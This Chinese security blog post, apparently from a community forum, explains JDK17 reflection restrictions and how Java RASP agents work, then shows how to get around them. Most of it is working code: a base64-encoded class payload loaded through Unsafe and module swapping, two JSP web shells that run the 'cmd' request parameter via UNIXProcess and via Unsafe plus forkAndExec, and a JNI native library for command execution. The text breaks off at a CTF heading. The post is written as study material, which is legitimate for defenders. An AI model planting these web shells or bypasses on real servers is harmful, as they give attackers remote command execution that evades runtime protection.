


# 从一道题初接触 RASP - 先知社区

从一道题初接触 RASP

- - -

# 前言

逛公众号的时候看到的一些接触的很少的东西，顺带着学习学习。

# JDK17 限制反射

在`JDK9`至`JDK16`版本之中，`Java.*`依赖包下所有的非公共字段和方法在进行反射调用的时候，会出现关于非法反射访问的警告，但是在`JDK17`之后，采用的是强封装，默认情况下不再允许这一类的反射，所有反射访问`java.*`的非公共字段和方法的代码将抛出`InaccessibleObjectException`异常。`Oracle`给的解释是这种反射的使用对`JDK`的**安全性**和**可维护性**产生了负面影响。

例子：

```plain
package com.example.jdk17bypass.demos;

import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.Base64;

public class Test {
    public static void main(String[] args) throws NoSuchMethodException, InvocationTargetException, IllegalAccessException {
        String payload = "yv66vgAAADQAIwoACQATCgAUABUIABYKABQAFwcAGAcAGQoABgAaBwAbBwAcAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACDxjbGluaXQ+AQANU3RhY2tNYXBUYWJsZQcAGAEAClNvdXJjZUZpbGUBAAthdHRhY2suamF2YQwACgALBwAdDAAeAB8BAARjYWxjDAAgACEBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQAaamF2YS9sYW5nL1J1bnRpbWVFeGNlcHRpb24MAAoAIgEABmF0dGFjawEAEGphdmEvbGFuZy9PYmplY3QBABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7AQAYKExqYXZhL2xhbmcvVGhyb3dhYmxlOylWACEACAAJAAAAAAACAAEACgALAAEADAAAAB0AAQABAAAABSq3AAGxAAAAAQANAAAABgABAAAAAwAIAA4ACwABAAwAAABUAAMAAQAAABe4AAISA7YABFenAA1LuwAGWSq3AAe/sQABAAAACQAMAAUAAgANAAAAFgAFAAAABgAJAAkADAAHAA0ACAAWAAoADwAAAAcAAkwHABAJAAEAEQAAAAIAEg==";

        byte[] decode = Base64.getDecoder().decode(payload);

        Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);
        defineClass.setAccessible(true);
        Class evil = (Class) defineClass.invoke(ClassLoader.getSystemClassLoader(), "attack", decode, 0, decode.length);
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240305215335-c2fed7b2-daf7-1.png)

# Unsafe 绕过

`JDK11`之前可以利用`Unsafe`来调用并加载非`public`类

```plain
public static void main(String[] args) throws Exception {
       String payload = "yv66vgAAADQAIwoACQATCgAUABUIABYKABQAFwcAGAcAGQoABgAaBwAbBwAcAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACDxjbGluaXQ+AQANU3RhY2tNYXBUYWJsZQcAGAEAClNvdXJjZUZpbGUBAAthdHRhY2suamF2YQwACgALBwAdDAAeAB8BAARjYWxjDAAgACEBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQAaamF2YS9sYW5nL1J1bnRpbWVFeGNlcHRpb24MAAoAIgEABmF0dGFjawEAEGphdmEvbGFuZy9PYmplY3QBABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7AQAYKExqYXZhL2xhbmcvVGhyb3dhYmxlOylWACEACAAJAAAAAAACAAEACgALAAEADAAAAB0AAQABAAAABSq3AAGxAAAAAQANAAAABgABAAAAAwAIAA4ACwABAAwAAABUAAMAAQAAABe4AAISA7YABFenAA1LuwAGWSq3AAe/sQABAAAACQAMAAUAAgANAAAAFgAFAAAABgAJAAkADAAHAA0ACAAWAAoADwAAAAcAAkwHABAJAAEAEQAAAAIAEg==";
       byte[] decode = Base64.getDecoder().decode(payload);
       ClassLoader classLoader=ClassLoader.getSystemClassLoader();
       Field theUafeField=Unsafe.class.getDeclaredField("theUnsafe");
       theUafeField.setAccessible(true);
       Unsafe unsafe= (Unsafe) theUafeField.get(null);
       Class<?> c2=unsafe.defineClass("attack",decode,0,decode.length,classLoader,null);
       c2.newInstance();
   }
```

但是在`JDK11`的时候，`Unsafe.defineClass`方法被移除并且默认禁止跨包之间反射调用非公共方法，在`JDK11`的时候，依旧可以使用`defineAnonymousClass`来触发，因为`defineAnonymousClass`没有被删除。

```plain
public static void main(String[] args) throws Exception {
        String payload = "yv66vgAAADQAIwoACQATCgAUABUIABYKABQAFwcAGAcAGQoABgAaBwAbBwAcAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACDxjbGluaXQ+AQANU3RhY2tNYXBUYWJsZQcAGAEAClNvdXJjZUZpbGUBAAthdHRhY2suamF2YQwACgALBwAdDAAeAB8BAARjYWxjDAAgACEBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQAaamF2YS9sYW5nL1J1bnRpbWVFeGNlcHRpb24MAAoAIgEABmF0dGFjawEAEGphdmEvbGFuZy9PYmplY3QBABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7AQAYKExqYXZhL2xhbmcvVGhyb3dhYmxlOylWACEACAAJAAAAAAACAAEACgALAAEADAAAAB0AAQABAAAABSq3AAGxAAAAAQANAAAABgABAAAAAwAIAA4ACwABAAwAAABUAAMAAQAAABe4AAISA7YABFenAA1LuwAGWSq3AAe/sQABAAAACQAMAAUAAgANAAAAFgAFAAAABgAJAAkADAAHAA0ACAAWAAoADwAAAAcAAkwHABAJAAEAEQAAAAIAEg==";
        byte[] decode = Base64.getDecoder().decode(payload);
        Field theUafeField=Unsafe.class.getDeclaredField("theUnsafe");
        theUafeField.setAccessible(true);
        Unsafe unsafe= (Unsafe) theUafeField.get(null);
        Class<?> c2=unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"),decode,null);
        c2.newInstance();
    }
```

来到`JDK17`，以上的两种方法都发现被删除掉了。那么如何绕过这种反射的限制？根据`Oracle`的描述，在`sun.misc`和`sun.reflect`包可供所有`JDK版本（包括JDK17）`中的工具和库反射，所以可以利用这里面的依赖中的`Unsafe`类来绕过这种限制，`Unsafe`是位于`sun.misc`包下的一个类，主要提供一些用于执行低级别、不安全操作的方法，如直接访问系统内存资源、自主管理内存资源等，拥有了类似 C 语言指针一样操作内存空间的能力。

因为上图的异常是从`checkCanSetAccessible`方法中抛出的，所以查看`setAccessible`的处理方法：

通过`Reflection.getCallerClass()`获取调用者的类的信息和各种方法，随后将获取到`caller`后与`ClassLoader`类一同传入到了`checkCanSetAccessible`方法中，在`checkCanSetAccessible`方法中，会先判断获取到的类信息是否是`MethodHandle`，如果是会抛出异常。接着通过`getModule()`获取`caller`和`ClassLoader`的`module`，如果它们两个的`module`是一致的，就会返回`True`

`MethodHandle`类提供了一种在调用方法时绕过 Java 语言访问控制和类型检查的方式，可以用来动态调用方法、字段和构造函数。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240305215000-42abaaea-daf7-1.png)

> 这里所说的`Unsafe`类绕过，就是通过`Unsafe`更改当前类通过`getModule`获取到的`Module`与`ClassLoader`的一致，从而完成绕过。

```plain
package com.example.jdk17bypass.demos;

import sun.misc.Unsafe;

import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.Base64;

public class Test {
    public static void main(String[] args) throws NoSuchMethodException, InvocationTargetException, IllegalAccessException, ClassNotFoundException, NoSuchFieldException, InstantiationException {
        String payload = "yv66vgAAADQAIwoACQATCgAUABUIABYKABQAFwcAGAcAGQoABgAaBwAbBwAcAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACDxjbGluaXQ+AQANU3RhY2tNYXBUYWJsZQcAGAEAClNvdXJjZUZpbGUBAAthdHRhY2suamF2YQwACgALBwAdDAAeAB8BAARjYWxjDAAgACEBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQAaamF2YS9sYW5nL1J1bnRpbWVFeGNlcHRpb24MAAoAIgEABmF0dGFjawEAEGphdmEvbGFuZy9PYmplY3QBABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7AQAYKExqYXZhL2xhbmcvVGhyb3dhYmxlOylWACEACAAJAAAAAAACAAEACgALAAEADAAAAB0AAQABAAAABSq3AAGxAAAAAQANAAAABgABAAAAAwAIAA4ACwABAAwAAABUAAMAAQAAABe4AAISA7YABFenAA1LuwAGWSq3AAe/sQABAAAACQAMAAUAAgANAAAAFgAFAAAABgAJAAkADAAHAA0ACAAWAAoADwAAAAcAAkwHABAJAAEAEQAAAAIAEg==";
        byte[] decode = Base64.getDecoder().decode(payload);
        Class<?> unSafe=Class.forName("sun.misc.Unsafe");
        Field unSafeField=unSafe.getDeclaredField("theUnsafe");
        unSafeField.setAccessible(true);
        Unsafe unSafeClass= (Unsafe) unSafeField.get(null);
        Module baseModule=Object.class.getModule();
        Class<?> currentClass= Test.class;
        long addr=unSafeClass.objectFieldOffset(Class.class.getDeclaredField("module"));
        unSafeClass.getAndSetObject(currentClass,addr,baseModule); //更改当前运行类的 Module
        Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);
        defineClass.setAccessible(true);
        Class<?> calc= (Class<?>) defineClass.invoke(ClassLoader.getSystemClassLoader(), "attack", decode, 0, decode.length);
        calc.newInstance();
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240305215015-4bd7f2c2-daf7-1.png)

# 关于 RASP

`RASP`全称是`Runtime applicaion self-protection`，在`2014`念提出的一种应用程序自我保护技术，将防护功能注入到应用程序之中，通过少量的`Hook`函数监测程序的运行，根据当前的上下文环境实时阻断攻击事件。

目前`Java RASP`主要是通过`Instrumentation`编写`Agent`的形式，在`Agent`的`premain`和`agentmain`中加入检测类一般继承于`ClassFileTransformer`，当程序运行进来的时候，通过类中的`transform`检测字节码文件中是否有一些敏感的类文件，比如`ProcessImpl`等。简单的可以理解为通过`Instrumentation`来对`JVM`进行实时监控

Instrumentation API 提供了两个核心接口：`ClassFileTransformer` 和 `Instrumentation`。`ClassFileTransformer` 接口允许开发者在类加载前或类重新定义时对字节码进行转换。Instrumentation 接口则提供了启动时代理和重新定义类的能力

关于所说的`Java Agent`会存在`premain`和`agentmain`两个方法，不同之处在于：

1.  `premain` 方法：`premain` 方法是在 Java 虚拟机启动时，在被代理的应用程序加载之前运行的。我们可以在 Agent 中的 `premain` 方法中执行一些初始化操作，并在应用程序启动之前对目标类进行修改。
2.  `agentmain` 方法：`agentmain` 方法是在 Java 虚拟机已经启动并且应用程序正在运行时，动态地加载一个 Java Agent。通过使用 `attach API`，我们可以将 Agent 动态地附加到正在运行的 Java 进程上。这样，我们可以在应用程序运行期间对目标类进行修改。

例子：

`Agent`类：

```plain
import com.example.jrasp.transform.RaspTransformer;
import java.io.UnsupportedEncodingException;
import java.lang.instrument.Instrumentation;
import java.net.URLDecoder;

public class Agent {
    public Agent() {
    }

    protected static String decodeArg(String arg) throws UnsupportedEncodingException {
        try {
            return URLDecoder.decode(arg, "UTF-16");
        } catch (UnsupportedEncodingException var2) {
            return URLDecoder.decode(arg, "UTF-8");
        }
    }

    public static void premain(String agentArg, Instrumentation inst) {
        try {
            RaspTransformer jndiManagerTransformer = new RaspTransformer(inst);
            inst.addTransformer(jndiManagerTransformer, true);
            jndiManagerTransformer.retransform();
        } catch (Throwable var3) {
            var3.printStackTrace();
        }

    }

    public static void agentmain(String agentArg, Instrumentation inst) {
        try {
            RaspTransformer jndiManagerTransformer = new RaspTransformer(inst);
            inst.addTransformer(jndiManagerTransformer, true);
            jndiManagerTransformer.retransform();
        } catch (Throwable var3) {
            var3.printStackTrace();
        }

    }
}
```

> 通过`Instrumentation API`实现了`premain`和`agentmain`方法，创建了自定义的`RaspTransformer`类，将自定义的类添加进了`JVM`转换器列表，用于 Java 类加载过程中对类字节码进行转换，通过`retransform`进行二次转换，实现了`JVM`启动时和`JVM`运行中的检测。

`Rasp`类：

```plain
import java.io.ByteArrayInputStream;
import java.lang.instrument.ClassFileTransformer;
import java.lang.instrument.IllegalClassFormatException;
import java.lang.instrument.Instrumentation;
import java.security.ProtectionDomain;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import javassist.LoaderClassPath;

public class RaspTransformer implements ClassFileTransformer {
    private Instrumentation inst;
    private static String targetClassName = "java.lang.ProcessImpl";
    private static String targetMethodName = "start";

    public RaspTransformer(Instrumentation inst) {
        this.inst = inst;
    }

    public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) throws IllegalClassFormatException {
        if (className.replace("/", ".").equals(targetClassName)) {
            System.out.println("[Vaccine] Start Patch JndiManager Lookup Method!");
            CtClass ctClass = null;
            CtMethod ctMethod = null;

            try {
                ClassPool classPool = new ClassPool();
                classPool.appendSystemPath();
                if (loader != null) {
                    classPool.appendClassPath(new LoaderClassPath(loader));
                }

                ctClass = classPool.makeClass(new ByteArrayInputStream(classfileBuffer));
                CtMethod[] var9 = ctClass.getMethods();
                int var10 = var9.length;

                for(int var11 = 0; var11 < var10; ++var11) {
                    CtMethod method = var9[var11];
                    if (method.getName().equals(targetMethodName)) {
                        ctMethod = method;
                        break;
                    }
                }

                assert ctMethod != null;

                ctMethod.insertBefore("return null;");
                System.out.println(String.format("Patch %s %s  Success!", targetClassName, targetMethodName));
                byte[] var18 = ctClass.toBytecode();
                return var18;
            } catch (Exception var16) {
                var16.printStackTrace();
            } finally {
                if (ctClass != null) {
                    ctClass.detach();
                }

            }

            return classfileBuffer;
        } else {
            return classfileBuffer;
        }
    }

    public void retransform() {
        Class<?>[] loadedClasses = this.inst.getAllLoadedClasses();
        Class[] var2 = loadedClasses;
        int var3 = loadedClasses.length;

        for(int var4 = 0; var4 < var3; ++var4) {
            Class<?> clazz = var2[var4];
            if (clazz.getName().replace("/", ".").equals(targetMethodName)) {
                System.out.println(String.format("Find Loaded %s %s Method!", targetClassName, targetMethodName));

                try {
                    this.inst.retransformClasses(new Class[]{clazz});
                } catch (Throwable var7) {
                    System.out.println("failed to retransform class " + clazz.getName() + ": " + var7.getMessage());
                }
            }
        }

    }
}
```

`retransform`处理：

-   当上面的`premain`或`agentmain`检测被触发，会调用`retransform`进行字节码转换，它通过调用`getAllLoadedClasses`获取当前所有已加载的所有类。
-   遍历获取到的所有类，逐个检查类命名否与静态类名`ProcessImpl`一致，如果一致会调用`retransformClasses` 进行转换处理
-   `retransformClasses`类实际上最终调用的就是上面的`transform`方法

`transform`处理：

-   方法接收类加载器（loader）、类名（className）、正在被重新定义的类（classBeingRedefined）、保护域（protectionDomain）和类文件字节数组（classfileBuffer）参数。
-   从`classfileBuffer`获取创建字节数组中的对象并获取该对象的所有方法。
-   通过遍历`classfileBuffer`对象中的所有方法与`ProcessImpl`匹配，如果匹配到了敏感的类方法，则在方法中插入返回`null`的代码。
-   最终将修改完成的对象转换为字节数组并返回，表示完成对类的转换，并释放`ctClass`对象。

# RASP 绕过

从上文得知，`RASP`主要是通过转换字节码来达到目的，如果设置的检测的方法存在着更底层的方法或者相同层级的不同方法能够达到相同的效果，那么就能完成绕过。比如说上文通过检测`processImpl.start`来进行保护，而在`Linux`或`Mac`系统中，还会存在着`UNIXProcess.forkAndExec()`能够达到`RCE`的效果。

## UNIXProcess

至于如何实例化一个`UNIXProcess`，可以从`ProcessImpl` 中看出来，以下是这个类的源码：

```plain
final class ProcessImpl {
    private static final sun.misc.JavaIOFileDescriptorAccess fdAccess
        = sun.misc.SharedSecrets.getJavaIOFileDescriptorAccess();

    private ProcessImpl() {}    // Not instantiable

    private static byte[] toCString(String s) {
        if (s == null)
            return null;
        byte[] bytes = s.getBytes();
        byte[] result = new byte[bytes.length + 1];
        System.arraycopy(bytes, 0,
                         result, 0,
                         bytes.length);
        result[result.length-1] = (byte)0;
        return result;
    }
    static Process start(String[] cmdarray,
                         java.util.Map<String,String> environment,
                         String dir,
                         ProcessBuilder.Redirect[] redirects,
                         boolean redirectErrorStream)
        throws IOException
    {
        assert cmdarray != null && cmdarray.length > 0;
        byte[][] args = new byte[cmdarray.length-1][];
        int size = args.length; // For added NUL bytes
        for (int i = 0; i < args.length; i++) {
            args[i] = cmdarray[i+1].getBytes();
            size += args[i].length;
        }
        byte[] argBlock = new byte[size];
        int i = 0;
        for (byte[] arg : args) {
            System.arraycopy(arg, 0, argBlock, i, arg.length);
            i += arg.length + 1;
        }

        int[] envc = new int[1];
        byte[] envBlock = ProcessEnvironment.toEnvironmentBlock(environment, envc);

        int[] std_fds;

        FileInputStream  f0 = null;
        FileOutputStream f1 = null;
        FileOutputStream f2 = null;

        try {
            if (redirects == null) {
                std_fds = new int[] { -1, -1, -1 };
            } else {
                std_fds = new int[3];
                if (redirects[1] == Redirect.PIPE)
                    std_fds[1] = -1;
                else if (redirects[1] == Redirect.INHERIT)
                    std_fds[1] = 1;
                else {
                    f1 = new FileOutputStream(redirects[1].file(),
                                              redirects[1].append());
                    std_fds[1] = fdAccess.get(f1.getFD());
                }
                if (redirects[2] == Redirect.PIPE)
                    std_fds[2] = -1;
                else if (redirects[2] == Redirect.INHERIT)
                    std_fds[2] = 2;
                else {
                    f2 = new FileOutputStream(redirects[2].file(),
                                              redirects[2].append());
                    std_fds[2] = fdAccess.get(f2.getFD());
                }
            }
        return new UNIXProcess
            (toCString(cmdarray[0]),
             argBlock, args.length,
             envBlock, envc[0],
             toCString(dir),
                 std_fds,
             redirectErrorStream);
        } finally {

            try { if (f0 != null) f0.close(); }
            finally {
                try { if (f1 != null) f1.close(); }
                finally { if (f2 != null) f2.close(); }
            }
        }
    }
}
```

> `UNIXProcess`接收 `8`个参数，其中`envc`是`[1]`与`std_fds`都是恒为 -1 的数组，`redirectErrorStream`不影响可为`false`，`args.length` 为 `cmd.length - 1`，至于`argBlock`的内容，我们赋值代码照着写即可。

一个 jsp 的 payload：

```plain
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.*" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.lang.reflect.Method" %>
<%!
   public byte[] toCString(String s) {
        if (s == null) {
            return null;
        }
        byte[] bytes  = s.getBytes();
        byte[] result = new byte[bytes.length + 1];
        System.arraycopy(bytes, 0, result, 0, bytes.length);
        result[result.length - 1] = (byte) 0;
        return result;
    }
    public InputStream run(String[] strs) throws Exception {
        Class clazz = null;
        //创建类
        try {
            clazz = Class.forName("java.lang.UNIXProcess");
        } catch (ClassNotFoundException e) {
            clazz = Class.forName("java.lang.ProcessImpl");
        }
        //获取构造方法
        Constructor<?> constructor = clazz.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        assert strs != null && strs.length > 0;
        //照着代码赋值即可
        byte[][] args = new byte[strs.length - 1][];
        int size = args.length; 
        for (int i = 0; i < args.length; i++) {
            args[i] = strs[i + 1].getBytes();
            size += args[i].length;
        }
        byte[] argBlock = new byte[size];
        int    i        = 0;
        for (byte[] arg : args) {
            System.arraycopy(arg, 0, argBlock, i, arg.length);
            i += arg.length + 1;
        }
        int[] envc    = new int[1];
        int[] std_fds = new int[]{-1, -1, -1};
        FileInputStream  f0 = null;
        FileOutputStream f1 = null;
        FileOutputStream f2 = null;
        try {
            if (f0 != null) f0.close();
        } finally {
            try {
                if (f1 != null) f1.close();
            } finally {
                if (f2 != null) f2.close();
            }
        }
        //实例化方法
        Object object = constructor.newInstance(
                toCString(strs[0]), argBlock, args.length,
                null, envc[0], null, std_fds, false
        );
        Method inMethod = object.getClass().getDeclaredMethod("getInputStream");
        inMethod.setAccessible(true);
        return (InputStream) inMethod.invoke(object);
    }
//将流转化成字符串输出
    String inputStreamToString(InputStream in) throws IOException {
        try {
            ByteArrayOutputStream out = new ByteArrayOutputStream();
            int                   a   = 0;
            byte[]                b   = new byte[1024];
            while ((a = in.read(b)) != -1) {
                out.write(b, 0, a);
            }
            return new String(out.toByteArray());
        } catch (IOException e) {
            throw e;
        } finally {
            if (in != null)
                in.close();
        }
    }
%>
<%
    String[] str = request.getParameterValues("cmd");
    if (str != null) {
        InputStream in     = start(str);
        String      result = inputStreamToString(in);
        out.println("<pre>");
        out.println(result);
        out.println("</pre>");
        out.flush();
        out.close();
    }
%>
```

## Unsafe+forkAndExec

如果`RASP`把`UNIXProcess/ProcessImpl`类的构造方法给拦截了，依旧可以绕过，可以直接通过触发`forkAndExec`的形式来绕过，因为无论是`UNIXProcess`或`ProcessImpl`最终触发的方法是`forkAndExec`。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240305215058-6541f28a-daf7-1.png)

> 在 UNIXProcess 中可以看到`forkAndExec`的参数内容，多出了`lanuchMechanism`与`helperpath`，其它的参数内容与`UNIXProcess`是一致的

1.  使用`sun.misc.Unsafe.allocateInstance(Class)`特性可以无需`new`或者`newInstance`创建`UNIXProcess/ProcessImpl`类对象。
2.  反射`UNIXProcess/ProcessImpl`类的`forkAndExec`方法。
3.  通过反射构造出`ordinal`和`helperpath`参数，并构造出`forkAndExec`方法
4.  反射`UNIXProcess/ProcessImpl`类的`initStreams`方法初始化输入输出结果流对象。
5.  反射`UNIXProcess/ProcessImpl`类的`getInputStream`方法获取本地命令执行结果 (如果要输出流、异常流反射对应方法即可)。

```plain
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="sun.misc.Unsafe" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.lang.reflect.Method" %>
<%!
    byte[] toCString(String s) {
        if (s == null)
            return null;
        byte[] bytes  = s.getBytes();
        byte[] result = new byte[bytes.length + 1];
        System.arraycopy(bytes, 0,
                result, 0,
                bytes.length);
        result[result.length - 1] = (byte) 0;
        return result;
    }
%>
<%
    String[] strs = request.getParameterValues("cmd");
    if (strs != null) {
        Field theUnsafeField = Unsafe.class.getDeclaredField("theUnsafe");
        theUnsafeField.setAccessible(true);
        Unsafe unsafe = (Unsafe) theUnsafeField.get(null); //通过 get 方法得到 unsafe 对象
        Class processClass = null;
        try {
            processClass = Class.forName("java.lang.UNIXProcess");
        } catch (ClassNotFoundException e) {
            processClass = Class.forName("java.lang.ProcessImpl");
        }
        Object processObject = unsafe.allocateInstance(processClass);//创建 UNIXProcess 对象
        //原代码
        byte[][] args = new byte[strs.length - 1][];
        int      size = args.length; 
        for (int i = 0; i < args.length; i++) {
            args[i] = strs[i + 1].getBytes();
            size += args[i].length;
        }
        byte[] argBlock = new byte[size];
        int    i        = 0;
        for (byte[] arg : args) {
            System.arraycopy(arg, 0, argBlock, i, arg.length);
            i += arg.length + 1;
        }
        int[] envc                 = new int[1];
        int[] std_fds              = new int[]{-1, -1, -1};
        //构造 forkAndExec 需要的参数
        Field launchMechanismField = processClass.getDeclaredField("launchMechanism");
        Field helperpathField      = processClass.getDeclaredField("helperpath");
        launchMechanismField.setAccessible(true);
        helperpathField.setAccessible(true);
        //从 UNIXProcess 中得到 launchMechanism 和 Helperpath
        Object launchMechanismObject = launchMechanismField.get(processObject);
        byte[] helperpathObject      = (byte[]) helperpathField.get(processObject);
        int ordinal = (int) launchMechanismObject.getClass().getMethod("ordinal").invoke(launchMechanismObject);
       //反射 forkAndExec 方法
        Method forkMethod = processClass.getDeclaredMethod("forkAndExec", new Class[]{
                int.class, byte[].class, byte[].class, byte[].class, int.class,
                byte[].class, int.class, byte[].class, int[].class, boolean.class
        });
        forkMethod.setAccessible(true);
        int pid = (int) forkMethod.invoke(processObject, new Object[]{
                ordinal + 1, helperpathObject, toCString(strs[0]), argBlock, args.length,
                null, envc[0], null, std_fds, false
        });
        // 初始化命令执行结果，将本地命令执行的输出流转换为程序执行结果的输出流
        Method initStreamsMethod = processClass.getDeclaredMethod("initStreams", int[].class);
        initStreamsMethod.setAccessible(true);
        initStreamsMethod.invoke(processObject, std_fds);
        //获取输出内容
        Method getInputStreamMethod = processClass.getMethod("getInputStream");
        getInputStreamMethod.setAccessible(true);
        InputStream in = (InputStream) getInputStreamMethod.invoke(processObject);
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        int                   a    = 0;
        byte[]                b    = new byte[1024];
        while ((a = in.read(b)) != -1) {
            baos.write(b, 0, a);
        }
        out.println("<pre>");
        out.println(baos.toString());
        out.println("</pre>");
        out.flush();
        out.close();
    }
%>
```

## JNI

`JNI`（Java Native Interface）是 Java 提供的一个用于和本地（Native）代码交互的编程接口。通过`JNI`，Java 程序可以调用 C、C++ 等本地编程语言编写的函数，并且本地代码也可以调用 Java 程序中的方法，原本是为了解决 Java 无法直接访问底层系统资源或者利用本地库的问题，这里也可以用于绕过`RASP`。通过`JNI`加载`dll`动态链接库或动态共享库`so`来达到本地执行的效果。

通过`JNI`使用`dll`例子：

要写一个命令执行的`Native`类，将类编译成`.class`的形式

```plain
public class Command {
    public native String exec(String cmd);
}
```

通过`java`命令生成`C`语言文件

```plain
javac -cp . ./Command.java -h com.example.jdk17bypass.demos.Command
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240305215117-7087af9a-daf7-1.png)

编写`C`语言的命令执行文件

```plain
#include "com_example_jdk17bypass_demos_Command.h"
#include "jni.h"
#include <string.h>
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int execmd(const char *cmd, char *result)
{
    char buffer[1024*12];   
    FILE *pipe = popen(cmd, "r"); 
    if (!pipe)
        return 0;

    while (!feof(pipe))
    {
        if (fgets(buffer, sizeof(buffer), pipe))
        { 
            strcat(result, buffer);
        }
    }
    pclose(pipe); 
    return 1;     
}
JNIEXPORT jstring JNICALL Java_com_example_jdk17bypass_demos_Command_exec(JNIEnv *env, jobject class_object, jstring jstr)
{
    const char *cstr = (*env)->GetStringUTFChars(env, jstr, NULL);
    char result[1024 * 12] = ""; 
    execmd(cstr, result));
    char return_messge[100] = "";
    strcat(return_messge, result);
    jstring cmdresult = (*env)->NewStringUTF(env, return_messge);
    return cmdresult;
}
```

`WIndows`安装 `gcc`命令指定各种`.h` 文件的目录对编写好的`C`文件编译成`dll`文件

```plain
gcc -I "C:\Program Files\Java\jdk-17.0.2\include" -I "C:\Program Files\Java\jdk-17.0.2\include\win32" -D__int64="long long" --shared "A:\IDEA\IdeaProjects\jdk17bypass\src\jni.c"  -o ./jni.dll
```

最终通过`System.loadLibrary`加载`dll`文件即可，这里会从系统环境变量中逐个寻找`jni.dll`

```plain
public static void main(String[] args) {
        System.loadLibrary("jni"); //load() 指定绝对路径
        Command command = new Command();
        String ipconfig = command.exec("calc");
        System.out.println(ipconfig);
    }
```

具体一些利用脚本等

参考连接：[绕过脚本例子](https://www.bookstack.cn/read/anbai-inc-javaweb-sec/javase-CommandExecution-README.md#cshlcl)

# \[MRCTF 2022\] springcoffee

